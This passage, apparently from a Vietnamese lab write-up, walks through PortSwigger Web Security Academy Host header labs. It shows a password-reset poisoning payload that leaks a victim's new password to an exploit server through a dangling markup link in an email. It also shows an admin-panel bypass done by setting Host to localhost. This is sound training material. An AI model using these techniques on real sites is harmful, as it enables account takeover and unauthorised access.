 <img width="622" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/c34eb66f-4ded-4aed-8681-703013174770">

Craft payload cho phần port như sau (thay bằng link của Exploit server) + đồng thời chỉnh `username=carlos`

<img width="625" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/17999656-859c-4a79-8090-8f03491542f1">

Lúc này nội dung email raw sẽ như sau (giả lập vẫn dùng user wiener để nhận được nội dung mail):

`<p>Hello!</p><p>Please <a href='https://0ac2001f04ae4f6c802b915300c400ce.web-security-academy.net:'<a href="//exploit-0a29001404a04fc980cc90c501ba004d.exploit-server.net/?/login'>click here</a> to login with your new password: T8L7r8ECTp</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>`

=> Khi view trên Email Client sẽ chỉ thấy phần Body như sau (giả lập vẫn dùng user wiener để nhận được nội dung mail):

<img width="593" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/32d8c341-e35d-4823-9701-f23b76df3ab9">

Tuy nhiên giả định rằng user carlos sẽ click vào mọi link nhận được trong Email => Sẽ thấy có log access truy cập vào Exploit Server:

<img width="625" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/da036647-e5d9-48ad-bba3-3f26990aaeb6">

=> Có thể dùng password trên để truy cập vào user carlos => LAB SOLVED!

<img width="580" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/a15958d5-1c89-4bc9-a406-f235f12e263e">

***

## 4. Lab: Host header authentication bypass

* Content:
```
This lab makes an assumption about the privilege level of the user based on the HTTP Host header.

To solve the lab, access the admin panel and delete the user carlos.
```
* Exploit:

Truy cập vào link `/admin` và đổi Host Header thành `localhost` => Truy cập thành công

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/272301dc-987d-4927-8ec3-787a54532218)

Thực hiện xóa user carlos => LAB SOLVED!

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/57b95444-b694-4ca5-b874-3612185e43af)

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/94b52da5-1be8-4de1-80e6-05b479072572)

